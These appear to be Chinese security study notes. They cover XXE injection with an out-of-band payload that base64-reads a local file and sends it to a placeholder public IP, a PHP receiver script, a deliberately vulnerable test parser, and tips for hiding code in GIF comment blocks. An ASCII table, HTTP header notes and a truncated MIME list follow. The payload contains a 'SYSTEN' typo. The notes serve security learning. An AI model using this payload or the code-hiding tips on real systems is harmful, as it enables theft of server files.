

# XXE实体注入

> 日期：2022/02/13

利用xml的外部实体去访问内网/本机的文件

## 了解xml

```xml
<!-- 声明版本 -->
<?xml version="1.0"?>

<!-- 文档类型定义 -->
<!DOCTYPE abc [
        <!-- 声明实体(可理解为变量)，功能：（使用file协议加载文件内容，暂存到test1中） -->
        <!ENTITY test1 SYSTEM "file://c:/1.txt">
]>

<!-- 引用test1的值 -->
<abc>&test1;</abc>
```

## 漏洞利用流程

1. 抓包或审计开源代码，寻找带xml的传参点
2. - 尝试引起报错，得到泄露的文件路径
   - 尝试填写网站常用路径，系统敏感路径
3. 将恶意xml注入传参点

## xxe数据接收平台

为了导出目标服务器敏感信息，我们需要一台公网服务器部署**数据接收平台**接收数据

- **save.php**（运行在自己的公网服务器）

```php
<?php 
// 将get请求参数a的值追加储存到本地result.txt
file_put_contents('result.txt',$_GET['a'],FILE_APPEND);
```

- **scanFile.xml**（通过传参点发送到目标服务器）

```xml
<?xml version="1.0"?>
<!DOCTYPE ABC [
        <!ENTITY % data SYSTEM 'php://filter/read=convert.base64-encode/resource=c:/1.txt'>
        <!ENTITY % sendToMyServer SYSTEN 'http://123.123.123.123/xxe/save.php?a=%data;'> 
]>
<ABC>%data; %sendToMyServer;</ABC>
```

scanFile.xml解析流程：
1. php伪协议获取内容，暂存到实体data中（伪协议功能：从系统读取文件->base64转码）
2. sendToMyServer实体执行流程：将data中的数据，通过http传递到外网服务器

-----

- **shooting_range.php**（测试靶场，部署到自己电脑内网环境）

```php
<?php
//接收参数
$inputData = $_REQUEST['xml'];
//解析xml
$obj = simplexml_load_string($inputData,'SimpleXMLElement',LIBXML_NOENT);
```


## 不同程序支持的协议

| libxml2 | php            | java   | .net  |
|---------|----------------|--------|-------|
| http    | http           | http   | http  |
| ftp     | ftp            | ftp    | ftp   |
| file    | file           | file   | file  |
|         | https          | https  | https |
|         | php            | jar    |       |
|         | compress.zlib  | netdoc |       |
|         | compress.bzip2 | mailto |       |
|         | data           | gopher |       |
|         | glob           |        |       |
|         | phar           |        |       |
|         | ftps           |        |       |
|         | zip            |        |       |
|         | ssh2.shell     |        |       |
|         | ssh2.exec      |        |       |
|         | ssh2.tunnel    |        |       |
|         | ssh2.sftp      |        |       |
|         | ssh2.scp       |        |       |
|         | rar            |        |       |
|         | ogg            |        |       |
|         | expect         |        |       |


# ascii对照表

| 二进制   | 十进制 | 十六进制 | 字符/缩写                                    | 解释                               |
| -------- | ------ | -------- | -------------------------------------------- | ---------------------------------- |
| 00000000 | 0      | 00       | NUL (NULL)                                   | 空字符                             |
| 00000001 | 1      | 01       | SOH (Start Of Headling)                      | 标题开始                           |
| 00000010 | 2      | 02       | STX (Start Of Text)                          | 正文开始                           |
| 00000011 | 3      | 03       | ETX (End Of Text)                            | 正文结束                           |
| 00000100 | 4      | 04       | EOT (End Of Transmission)                    | 传输结束                           |
| 00000101 | 5      | 05       | ENQ (Enquiry)                                | 请求                               |
| 00000110 | 6      | 06       | ACK (Acknowledge)                            | 回应/响应/收到通知                 |
| 00000111 | 7      | 07       | BEL (Bell)                                   | 响铃                               |
| 00001000 | 8      | 08       | BS (Backspace)                               | 退格                               |
| 00001001 | 9      | 09       | HT (Horizontal Tab)                          | 水平制表符                         |
| 00001010 | 10     | 0A       | LF/NL(Line Feed/New Line)                    | 换行键                             |
| 00001011 | 11     | 0B       | VT (Vertical Tab)                            | 垂直制表符                         |
| 00001100 | 12     | 0C       | FF/NP (Form Feed/New Page)                   | 换页键                             |
| 00001101 | 13     | 0D       | CR (Carriage Return)                         | 回车键                             |
| 00001110 | 14     | 0E       | SO (Shift Out)                               | 不用切换                           |
| 00001111 | 15     | 0F       | SI (Shift In)                                | 启用切换                           |
| 00010000 | 16     | 10       | DLE (Data Link Escape)                       | 数据链路转义                       |
| 00010001 | 17     | 11       | DC1/XON (Device Control 1/Transmission On)   | 设备控制1/传输开始                 |
| 00010010 | 18     | 12       | DC2 (Device Control 2)                       | 设备控制2                          |
| 00010011 | 19     | 13       | DC3/XOFF (Device Control 3/Transmission Off) | 设备控制3/传输中断                 |
| 00010100 | 20     | 14       | DC4 (Device Control 4)                       | 设备控制4                          |
| 00010101 | 21     | 15       | NAK (Negative Acknowledge)                   | 无响应/非正常响应/拒绝接收         |
| 00010110 | 22     | 16       | SYN (Synchronous Idle)                       | 同步空闲                           |
| 00010111 | 23     | 17       | ETB (End of Transmission Block)              | 传输块结束/块传输终止              |
| 00011000 | 24     | 18       | CAN (Cancel)                                 | 取消                               |
| 00011001 | 25     | 19       | EM (End of Medium)                           | 已到介质末端/介质存储已满/介质中断 |
| 00011010 | 26     | 1A       | SUB (Substitute)                             | 替补/替换                          |
| 00011011 | 27     | 1B       | ESC (Escape)                                 | 逃离/取消                          |
| 00011100 | 28     | 1C       | FS (File Separator)                          | 文件分割符                         |
| 00011101 | 29     | 1D       | GS (Group Separator)                         | 组分隔符/分组符                    |
| 00011110 | 30     | 1E       | RS (Record Separator)                        | 记录分离符                         |
| 00011111 | 31     | 1F       | US (Unit Separator)                          | 单元分隔符                         |
| 00100000 | 32     | 20       | (Space)                                      | 空格                               |
| 00100001 | 33     | 21       | !                                            |                                    |
| 00100010 | 34     | 22       | "                                            |                                    |
| 00100011 | 35     | 23       | #                                            |                                    |
| 00100100 | 36     | 24       | $                                            |                                    |
| 00100101 | 37     | 25       | %                                            |                                    |
| 00100110 | 38     | 26       | &                                            |                                    |
| 00100111 | 39     | 27       | '                                            |                                    |
| 00101000 | 40     | 28       | (                                            |                                    |
| 00101001 | 41     | 29       | )                                            |                                    |
| 00101010 | 42     | 2A       | *                                            |                                    |
| 00101011 | 43     | 2B       | +                                            |                                    |
| 00101100 | 44     | 2C       | ,                                            |                                    |
| 00101101 | 45     | 2D       | -                                            |                                    |
| 00101110 | 46     | 2E       | .                                            |                                    |
| 00101111 | 47     | 2F       | /                                            |                                    |
| 00110000 | 48     | 30       | 0                                            |                                    |
| 00110001 | 49     | 31       | 1                                            |                                    |
| 00110010 | 50     | 32       | 2                                            |                                    |
| 00110011 | 51     | 33       | 3                                            |                                    |
| 00110100 | 52     | 34       | 4                                            |                                    |
| 00110101 | 53     | 35       | 5                                            |                                    |
| 00110110 | 54     | 36       | 6                                            |                                    |
| 00110111 | 55     | 37       | 7                                            |                                    |
| 00111000 | 56     | 38       | 8                                            |                                    |
| 00111001 | 57     | 39       | 9                                            |                                    |
| 00111010 | 58     | 3A       | :                                            |                                    |
| 00111011 | 59     | 3B       | ;                                            |                                    |
| 00111100 | 60     | 3C       | <                                            |                                    |
| 00111101 | 61     | 3D       | =                                            |                                    |
| 00111110 | 62     | 3E       | >                                            |                                    |
| 00111111 | 63     | 3F       | ?                                            |                                    |
| 01000000 | 64     | 40       | @                                            |                                    |
| 01000001 | 65     | 41       | A                                            |                                    |
| 01000010 | 66     | 42       | B                                            |                                    |
| 01000011 | 67     | 43       | C                                            |                                    |
| 01000100 | 68     | 44       | D                                            |                                    |
| 01000101 | 69     | 45       | E                                            |                                    |
| 01000110 | 70     | 46       | F                                            |                                    |
| 01000111 | 71     | 47       | G                                            |                                    |
| 01001000 | 72     | 48       | H                                            |                                    |
| 01001001 | 73     | 49       | I                                            |                                    |
| 01001010 | 74     | 4A       | J                                            |                                    |
| 01001011 | 75     | 4B       | K                                            |                                    |
| 01001100 | 76     | 4C       | L                                            |                                    |
| 01001101 | 77     | 4D       | M                                            |                                    |
| 01001110 | 78     | 4E       | N                                            |                                    |
| 01001111 | 79     | 4F       | O                                            |                                    |
| 01010000 | 80     | 50       | P                                            |                                    |
| 01010001 | 81     | 51       | Q                                            |                                    |
| 01010010 | 82     | 52       | R                                            |                                    |
| 01010011 | 83     | 53       | S                                            |                                    |
| 01010100 | 84     | 54       | T                                            |                                    |
| 01010101 | 85     | 55       | U                                            |                                    |
| 01010110 | 86     | 56       | V                                            |                                    |
| 01010111 | 87     | 57       | W                                            |                                    |
| 01011000 | 88     | 58       | X                                            |                                    |
| 01011001 | 89     | 59       | Y                                            |                                    |
| 01011010 | 90     | 5A       | Z                                            |                                    |
| 01011011 | 91     | 5B       | [                                            |                                    |
| 01011100 | 92     | 5C       | \                                            |                                    |
| 01011101 | 93     | 5D       | ]                                            |                                    |
| 01011110 | 94     | 5E       | ^                                            |                                    |
| 01011111 | 95     | 5F       | _                                            |                                    |
| 01100000 | 96     | 60       | `                                            |                                    |
| 01100001 | 97     | 61       | a                                            |                                    |
| 01100010 | 98     | 62       | b                                            |                                    |
| 01100011 | 99     | 63       | c                                            |                                    |
| 01100100 | 100    | 64       | d                                            |                                    |
| 01100101 | 101    | 65       | e                                            |                                    |
| 01100110 | 102    | 66       | f                                            |                                    |
| 01100111 | 103    | 67       | g                                            |                                    |
| 01101000 | 104    | 68       | h                                            |                                    |
| 01101001 | 105    | 69       | i                                            |                                    |
| 01101010 | 106    | 6A       | j                                            |                                    |
| 01101011 | 107    | 6B       | k                                            |                                    |
| 01101100 | 108    | 6C       | l                                            |                                    |
| 01101101 | 109    | 6D       | m                                            |                                    |
| 01101110 | 110    | 6E       | n                                            |                                    |
| 01101111 | 111    | 6F       | o                                            |                                    |
| 01110000 | 112    | 70       | p                                            |                                    |
| 01110001 | 113    | 71       | q                                            |                                    |
| 01110010 | 114    | 72       | r                                            |                                    |
| 01110011 | 115    | 73       | s                                            |                                    |
| 01110100 | 116    | 74       | t                                            |                                    |
| 01110101 | 117    | 75       | u                                            |                                    |
| 01110110 | 118    | 76       | v                                            |                                    |
| 01110111 | 119    | 77       | w                                            |                                    |
| 01111000 | 120    | 78       | x                                            |                                    |
| 01111001 | 121    | 79       | y                                            |                                    |
| 01111010 | 122    | 7A       | z                                            |                                    |
| 01111011 | 123    | 7B       | {                                            |                                    |
| 01111100 | 124    | 7C       | \|                                           |                                    |
| 01111101 | 125    | 7D       | }                                            |                                    |
| 01111110 | 126    | 7E       | ~                                            |                                    |
| 01111111 | 127    | 7F       | DEL (Delete)                                 | 删除                               |


# gif文件存储结构

文档: http://giflib.sourceforge.net/whatsinagif/bits_and_bytes.html




不考虑二次渲染的情况下做隐写，可参考以下建议

- 可插入文本的区块有`21FE--00`、`2101--00` 
- 将数据插入到`00`前一位，对文件影响较小。
- 也可找到任意一处结尾`00`，紧跟其后手动创建一个`评论扩展`区块`21FE--00`，再将代码片段放入自己创建的区块中


# http协议

### 首行

请求方式 资源路径 http版本

```http request
GET /path HTTP/1.1
```

### 目标主机地址

```http request
Host: www.xxx.com
```

```http request
Host: 127.0.0.1
```
### Cookie

```http request
Cookie: PHPSESSID=me5au7aprsa3eb91v2iq17b627; extend_contents_views=383
```

### 是否请求保持长连接

```http request
Connection: close
```

### http缓存控制

- max-age>0:直接从浏览器缓存中提取数据发生到server
- max-age<=0:向server确认资源是否有更新，有更新则返回200，没有则返回304
- no-cache:强制直接发生给server，不经过本地缓存版本检验

```http request
Cache-Control: max-age=0
```


### 升级不安全请求，以后发请求不用http，用https

```http request
Upgrade-Insecure-Requests: 1
```

### 用户访问工具

- 告诉server访问者使用什么浏览器请求


```http request
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
```

### 浏览器想接受的响应格式

- text/html：html格式
- text/plain：纯文本格式
- text/xml：xml格式
- image/gif:图片
- ...

```http request
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
```

### 浏览器表明能接受压缩的格式

Accept-Encoding: gzip, deflate


### 浏览器支持的语言类型

```
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,zh-HK;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://www.baidu.com/link?url=Xbuq6cf4-cYx1XCmzhS14u4ByXQL7cxBqVRqs6MAXc8edd4XkUAjIpGpz_VfJ_1a&wd=&eqid=e9b38f1b0005241c00000006620de3b1
```


# mime.json

```json
{
	"123": "application/vnd.lotus-1-2-3",
	"1km": "application/vnd.1000minds.decision-model+xml",
	"3dml": "text/vnd.in3d.3dml",
	"3ds": "image/x-3ds",
	"3g2": "video/3gpp2",
	"3gp": "video/3gpp",
	"3gpp": "video/3gpp",
	"3mf": "model/3mf",
	"7z": "application/x-7z-compressed",
	"aab": "application/x-authorware-bin",
	"aac": "audio/x-aac",
	"aam": "application/x-authorware-map",
	"aas": "application/x-authorware-seg",
	"abw": "application/x-abiword",
	"ac": "application/vnd.nokia.n-gage.ac+xml",
	"acc": "application/vnd.americandynamics.acc",
	"ace": "application/x-ace-compressed",
	"acu": "application/vnd.acucobol",
	"acutc": "application/vnd.acucorp",
	"adp": "audio/adpcm",
	"aep": "application/vnd.audiograph",
	"afm": "application/x-font-type1",
	"afp": "application/vnd.ibm.modcap",
	"age": "application/vnd.age",
	"ahead": "application/vnd.ahead.space",
	"ai": "application/postscript",
	"aif": "audio/x-aiff",
	"aifc": "audio/x-aiff",
	"aiff": "audio/x-aiff",
	"air": "application/vnd.adobe.air-application-installer-package+zip",
	"ait": "application/vnd.dvb.ait",
	"ami": "application/vnd.amiga.ami",
	"amr": "audio/amr",
	"apk": "application/vnd.android.package-archive",
	"apng": "image/apng",
	"appcache": "text/cache-manifest",
	"application": "application/x-ms-application",
	"apr": "application/vnd.lotus-approach",
	"arc": "application/x-freearc",
	"arj": "application/x-arj",
	"asc": "application/pgp-signature",
	"asf": "video/x-ms-asf",
	"asm": "text/x-asm",
	"aso": "application/vnd.accpac.simply.aso",
	"asx": "video/x-ms-asf",
	"atc": "application/vnd.acucorp",
	"atom": "application/atom+xml",
	"atomcat": "application/atomcat+xml",
	"atomdeleted": "application/atomdeleted+xml",
	"atomsvc": "application/atomsvc+xml",
	"atx": "application/vnd.antix.game-component",
	"au": "audio/basic",
	"avi": "video/x-msvideo",
	"avif": "image/avif",
	"aw": "application/applixware",
	"azf": "application/vnd.airzip.filesecure.azf",
	"azs": "application/vnd.airzip.filesecure.azs",
	"azv": "image/vnd.airzip.accelerator.azv",
	"azw": "application/vnd.amazon.ebook",
	"b16": "image/vnd.pco.b16",
	"bat": "application/x-msdownload",
	"bcpio": "application/x-bcpio",
	"bdf": "application/x-font-bdf",
	"bdm": "application/vnd.syncml.dm+wbxml",
	"bdoc": "application/x-bdoc",
	"bed": "application/vnd.realvnc.bed",
	"bh2": "application/vnd.fujitsu.oasysprs",
	"bin": "application/octet-stream",
	"blb": "application/x-blorb",
	"blorb": "application/x-blorb",
	"bmi": "application/vnd.bmi",
	"bmml": "application/vnd.balsamiq.bmml+xml",
	"bmp": "image/x-ms-bmp",
	"book": "application/vnd.framemaker",
	"box": "application/vnd.previewsystems.box",
	"boz": "application/x-bzip2",
	"bpk": "application/octet-stream",
	"bsp": "model/vnd.valve.source.compiled-map",
	"btif": "image/prs.btif",
	"buffer": "application/octet-stream",
	"bz": "application/x-bzip",
	"bz2": "application/x-bzip2",
	"c": "text/x-c",
	"c11amc": "application/vnd.cluetrust.cartomobile-config",
	"c11amz": "application/vnd.cluetrust.cartomobile-config-pkg",
	"c4d": "application/vnd.clonk.c4group",
	"c4f": "application/vnd.clonk.c4group",
	"c4g": "application/vnd.clonk.c4group",
	"c4p": "application/vnd.clonk.c4group",
	"c4u": "application/vnd.clonk.c4group",
	"cab": "application/vnd.ms-cab-compressed",
	"caf": "audio/x-caf",
	"cap": "application/vnd.tcpdump.pcap",
	"car": "application/vnd.curl.car",
	"cat": "application/vnd.ms-pki.seccat",
	"cb7": "application/x-cbr",
	"cba": "application/x-cbr",
	"cbr": "application/x-cbr",
	"cbt": "application/x-cbr",
	"cbz": "application/x-cbr",
	"cc": "text/x-c",
	"cco": "application/x-cocoa",
	"cct": "application/x-director",
	"ccxml": "application/ccxml+xml",
	"cdbcmsg": "application/vnd.contact.cmsg",
	"cdf": "application/x-netcdf",
	"cdfx": "application/cdfx+xml",
	"cdkey": "application/vnd.mediastation.cdkey",
	"cdmia": "application/cdmi-capability",
	"cdmic": "application/cdmi-container",
	"cdmid": "application/cdmi-domain",
	"cdmio": "application/cdmi-object",
	"cdmiq": "application/cdmi-queue",
	"cdx": "chemical/x-cdx",
	"cdxml": "application/vnd.chemdraw+xml",
	"cdy": "application/vnd.cinderella",
	"cer": "application/pkix-cert",
	"cfs": "application/x-cfs-compressed",
	"cgm": "image/cgm",
	"chat": "application/x-chat",
	"chm": "application/vnd.ms-htmlhelp",
	"chrt": "application/vnd.kde.kchart",
	"cif": "chemical/x-cif",
	"cii": "application/vnd.anser-web-certificate-issue-initiation",
	"cil": "application/vnd.ms-artgalry",
	"cjs": "application/node",
	"cla": "application/vnd.claymore",
	"class": "application/java-vm",
	"clkk": "application/vnd.crick.clicker.keyboard",
	"clkp": "application/vnd.crick.clicker.palette",
	"clkt": "application/vnd.crick.clicker.template",
	"clkw": "application/vnd.crick.clicker.wordbank",
	"clkx": "application/vnd.crick.clicker",
	"clp": "application/x-msclip",
	"cmc": "application/vnd.cosmocaller",
	"cmdf": "chemical/x-cmdf",
	"cml": "chemical/x-cml",
	"cmp": "application/vnd.yellowriver-custom-menu",
	"cmx": "image/x-cmx",
	"cod": "application/vnd.rim.cod",
	"coffee": "text/coffeescript",
	"com": "application/x-msdownload",
	"conf": "text/plain",
	"cpio": "application/x-cpio",
	"cpp": "text/x-c",
	"cpt": "application/mac-compactpro",
	"crd": "application/x-mscardfile",
	"crl": "application/pkix-crl",
	"crt": "application/x-x509-ca-cert",
	"crx": "application/x-chrome-extension",
	"cryptonote": "application/vnd.rig.cryptonote",
	"csh": "application/x-csh",
	"csl": "application/vnd.citationstyles.style+xml",
	"csml": "chemical/x-csml",
	"csp": "application/vnd.commonspace",
	"css": "text/css",
	"cst": "application/x-director",
	"csv": "text/csv",
	"cu": "application/cu-seeme",
	"curl": "text/vnd.curl",
	"cww": "application/prs.cww",
	"cxt": "application/x-director",
	"cxx": "text/x-c",
	"dae": "model/vnd.collada+xml",
	"daf": "application/vnd.mobius.daf",
	"dart": "application/vnd.dart",
	"dataless": "application/vnd.fdsn.seed",
	"davmount": "application/davmount+xml",
	"dbf": "application/vnd.dbf",
	"dbk": "application/docbook+xml",
	"dcr": "application/x-director",
	"dcurl": "text/vnd.curl.dcurl",
	"dd2": "application/vnd.oma.dd2+xml",
	"ddd": "application/vnd.fujixerox.ddd",
	"ddf": "application/vnd.syncml.dmddf+xml",
	"dds": "image/vnd.ms-dds",
	"deb": "application/x-debian-package",
	"def": "text/plain",
	"deploy": "application/octet-stream",
	"der": "application/x-x509-ca-cert",
	"dfac": "application/vnd.dreamfactory",
	"dgc": "application/x-dgc-compressed",
	"dic": "text/x-c",
	"dir": "application/x-director",
	"dis": "application/vnd.mobius.dis",
	"disposition-notification": "message/disposition-notification",
	"dist": "application/octet-stream",
	"distz": "application/octet-stream",
	"djv": "image/vnd.djvu",
	"djvu": "image/vnd.djvu",
	"dll": "application/x-msdownload",
	"dmg": "application/x-apple-diskimage",
	"dmp": "application/vnd.tcpdump.pcap",
	"dms": "application/octet-stream",
	"dna": "application/vnd.dna",
	"doc": "application/msword",
	"docm": "application/vnd.ms-word.document.macroenabled.12",
	"docx": "application/vnd.openxmlformats-officedocument.wordprocessingml.document",
	"dot": "application/msword",
	"dotm": "application/vnd.ms-word.template.macroenabled.12",
	"dotx": "application/vnd.openxmlformats-officedocument.wordprocessingml.template",
	"dp": "application/vnd.osgi.dp",
	"dpg": "application/vnd.dpgraph",
	"dra": "audio/vnd.dra",
	"drle": "image/dicom-rle",
	"dsc": "text/prs.lines.tag",
	"dssc": "application/dssc+der",
	"dtb": "application/x-dtbook+xml",
	"dtd": "application/xml-dtd",
	"dts": "audio/vnd.dts",
	"dtshd": "audio/vnd.dts.hd",
	"dump": "application/octet-stream",
	"dvb": "video/vnd.dvb.file",
	"dvi": "application/x-dvi",
	"dwd": "application/atsc-dwd+xml",
	"dwf": "model/vnd.dwf",
	"dwg": "image/vnd.dwg",
	"dxf": "image/vnd.dxf",
	"dxp": "application/vnd.spotfire.dxp",
	"dxr": "application/x-director",
	"ear": "application/java-archive",
	"ecelp4800": "audio/vnd.nuera.ecelp4800",
	"ecelp7470": "audio/vnd.nuera.ecelp7470",
	"ecelp9600": "audio/vnd.nuera.ecelp9600",
	"ecma": "application/ecmascript",
	"edm": "application/vnd.novadigm.edm",
	"edx": "application/vnd.novadigm.edx",
	"efif": "application/vnd.picsel",
	"ei6": "application/vnd.pg.osasli",
	"elc": "application/octet-stream",
	"emf": "image/emf",
	"eml": "message/rfc822",
	"emma": "application/emma+xml",
	"emotionml": "application/emotionml+xml",
	"emz": "application/x-msmetafile",
	"eol": "audio/vnd.digital-winds",
	"eot": "application/vnd.ms-fontobject",
	"eps": "application/postscript",
	"epub": "application/epub+zip",
	"es": "application/ecmascript",
	"es3": "application/vnd.eszigno3+xml",
	"esa": "application/vnd.osgi.subsystem",
	"esf": "application/vnd.epson.esf",
	"et3": "application/vnd.eszigno3+xml",
	"etx": "text/x-setext",
	"eva": "application/x-eva",
	"evy": "application/x-envoy",
	"exe": "application/x-msdownload",
	"exi": "application/exi",
	"exp": "application/express",
	"exr": "image/aces",
	"ext": "application/vnd.novadigm.ext",
	"ez": "application/andrew-inset",
	"ez2": "application/vnd.ezpix-album",
	"ez3": "application/vnd.ezpix-package",
	"f": "text/x-fortran",
	"f4v": "video/x-f4v",
	"f77": "text/x-fortran",
	"f90": "text/x-fortran",
	"fbs": "image/vnd.fastbidsheet",
	"fcdt": "application/vnd.adobe.formscentral.fcdt",
	"fcs": "application/vnd.isac.fcs",
	"fdf": "application/vnd.fdf",
	"fdt": "application/fdt+xml",
	"fe_launch": "application/vnd.denovo.fcselayout-link",
	"fg5": "application/vnd.fujitsu.oasysgp",
	"fgd": "application/x-director",
	"fh": "image/x-freehand",
	"fh4": "image/x-freehand",
	"fh5": "image/x-freehand",
	"fh7": "image/x-freehand",
	"fhc": "image/x-freehand",
	"fig": "application/x-xfig",
	"fits": "image/fits",
	"flac": "audio/x-flac",
	"fli": "video/x-fli",
	"flo": "application/vnd.micrografx.flo",
	"flv": "video/x-flv",
	"flw": "application/vnd.kde.kivio",
	"flx": "text/vnd.fmi.flexstor",
	"fly": "text/vnd.fly",
	"fm": "application/vnd.framemaker",
	"fnc": "application/vnd.frogans.fnc",
	"fo": "application/vnd.software602.filler.form+xml",
	"for": "text/x-fortran",
	"fpx": "image/vnd.fpx",
	"frame": "application/vnd.framemaker",
	"fsc": "application/vnd.fsc.weblaunch",
	"fst": "image/vnd.fst",
	"ftc": "application/vnd.fluxtime.clip",
	"fti": "application/vnd.anser-web-funds-transfer-initiation",
	"fvt": "video/vnd.fvt",
	"fxp": "application/vnd.adobe.fxp",
	"fxpl": "application/vnd.adobe.fxp",
	"fzs": "application/vnd.fuzzysheet",
	"g2w": "application/vnd.geoplan",
	"g3": "image/g3fax",
	"g3w": "application/vnd.geospace",
	"gac": "application/vnd.groove-account",
	"gam": "application/x-tads",
	"gbr": "application/rpki-ghostbusters",
	"gca": "application/x-gca-compressed",
	"gdl": "model/vnd.gdl",
	"gdoc": "application/vnd.google-apps.document",
	"ged": "text/vnd.familysearch.gedcom",
	"geo": "application/vnd.dynageo",
	"geojson": "application/geo+json",
	"gex": "application/vnd.geometry-explorer",
	"ggb": "application/vnd.geogebra.file",
	"ggt": "application/vnd.geogebra.tool",
	"ghf": "application/vnd.groove-help",
	"gif": "image/gif",
	"gim": "application/vnd.groove-identity-message",
	"glb": "model/gltf-binary",
	"gltf": "model/gltf+json",
	"gml": "application/gml+xml",
	"gmx": "application/vnd.gmx",
	"gnumeric": "application/x-gnumeric",
	"gph": "application/vnd.flographit",
	"gpx": "application/gpx+xml",
	"gqf": "application/vnd.grafeq",
	"gqs": "application/vnd.grafeq",
	"gram": "application/srgs",
	"gramps": "application/x-gramps-xml",
	"gre": "application/vnd.geometry-explorer",
	"grv": "application/vnd.groove-injector",
	"grxml": "application/srgs+xml",
	"gsf": "application/x-font-ghostscript",
	"gsheet": "application/vnd.google-apps.spreadsheet",
	"gslides": "application/vnd.google-apps.presentation",
	"gtar": "application/x-gtar",
	"gtm": "application/vnd.groove-tool-message",
	"gtw": "model/vnd.gtw",
	"gv": "text/vnd.graphviz",
	"gxf": "application/gxf",
	"gxt": "application/vnd.geonext",
	"gz": "application/gzip",
	"h": "text/x-c",
	"h261": "video/h261",
	"h263": "video/h263",
	"h264": "video/h264",
	"hal": "application/vnd.hal+xml",
	"hbci": "application/vnd.hbci",
	"hbs": "text/x-handlebars-template",
	"hdd": "application/x-virtualbox-hdd",
	"hdf": "application/x-hdf",
	"heic": "image/heic",
	"heics": "image/heic-sequence",
	"heif": "image/heif",
	"heifs": "image/heif-sequence",
	"hej2": "image/hej2k",
	"held": "application/atsc-held+xml",
	"hh": "text/x-c",
	"hjson": "application/hjson",
	"hlp": "application/winhlp",
	"hpgl": "application/vnd.hp-hpgl",
	"hpid": "application/vnd.hp-hpid",
	"hps": "application/vnd.hp-hps",
	"hqx": "application/mac-binhex40",
	"hsj2": "image/hsj2",
	"htc": "text/x-component",
	"htke": "application/vnd.kenameaapp",
	"htm": "text/html",
	"html": "text/html",
	"hvd": "application/vnd.yamaha.hv-dic",
	"hvp": "application/vnd.yamaha.hv-voice",
	"hvs": "application/vnd.yamaha.hv-script",
	"i2g": "application/vnd.intergeo",
	"icc": "application/vnd.iccprofile",
	"ice": "x-conference/x-cooltalk",
	"icm": "application/vnd.iccprofile",
	"ico": "image/x-icon",
	"ics": "text/calendar",
	"ief": "image/ief",
	"ifb": "text/calendar",
	"ifm": "application/vnd.shana.informed.formdata",
	"iges": "model/iges",
	"igl": "application/vnd.igloader",
	"igm": "application/vnd.insors.igm",
	"igs": "model/iges",
	"igx": "application/vnd.micrografx.igx",
	"iif": "application/vnd.shana.informed.interchange",
	"img": "application/octet-stream",
	"imp": "application/vnd.accpac.simply.imp",
	"ims": "application/vnd.ms-ims",
	"in": "text/plain",
	"ini": "text/plain",
	"ink": "application/inkml+xml",
	"inkml": "application/inkml+xml",
	"install": "application/x-install-instructions",
	"iota": "application/vnd.astraea-software.iota",
	"ipfix": "application/ipfix",
	"ipk": "application/vnd.shana.informed.package",
	"irm": "application/vnd.ibm.rights-management",
	"irp": "application/vnd.irepository.package+xml",
	"iso": "application/x-iso9660-image",
	"itp": "application/vnd.shana.informed.formtemplate",
	"its": "application/its+xml",
	"ivp": "application/vnd.immervision-ivp",
	"ivu": "application/vnd.immervision-ivu",
	"jad": "text/vnd.sun.j2me.app-descriptor",
	"jade": "text/jade",
	"jam": "application/vnd.jam",
	"jar": "application/java-archive",
	"jardiff": "application/x-java-archive-diff",
	"java": "text/x-java-source",
	"jhc": "image/jphc",
	"jisp": "application/vnd.jisp",
	"jls": "image/jls",
	"jlt": "application/vnd.hp-jlyt",
	"jng": "image/x-jng",
	"jnlp": "application/x-java-jnlp-file",
	"joda": "application/vnd.joost.joda-archive",
	"jp2": "image/jp2",
	"jpe": "image/jpeg",
	"jpeg": "image/jpeg",
	"jpf": "image/jpx",
	"jpg": "image/jpeg",
	"jpg2": "image/jp2",
	"jpgm": "video/jpm",
	"jpgv": "video/jpeg",
	"jph": "image/jph",
	"jpm": "video/jpm",
	"jpx": "image/jpx",
	"js": "application/javascript",
	"json": "application/json",
	"json5": "application/json5",
	"jsonld": "application/ld+json",
	"jsonml": "application/jsonml+json",
	"jsx": "text/jsx",
	"jxr": "image/jxr",
	"jxra": "image/jxra",
	"jxrs": "image/jxrs",
	"jxs": "image/jxs",
	"jxsc": "image/jxsc",
	"jxsi": "image/jxsi",
	"jxss": "image/jxss",
	"kar": "audio/midi",
	"karbon": "application/vnd.kde.karbon",
	"kdbx": "application/x-keepass2",
	"key": "application/x-iwork-keynote-sffkey",
	"kfo": "application/vnd.kde.kformula",
	"kia": "application/vnd.kidspiration",
	"kml": "application/vnd.google-earth.kml+xml",
	"kmz": "application/vnd.google-earth.kmz",
	"kne": "application/vnd.kinar",
	"knp": "application/vnd.kinar",
	"kon": "application/vnd.kde.kontour",
	"kpr": "application/vnd.kde.kpresenter",
	"kpt": "application/vnd.kde.kpresenter",
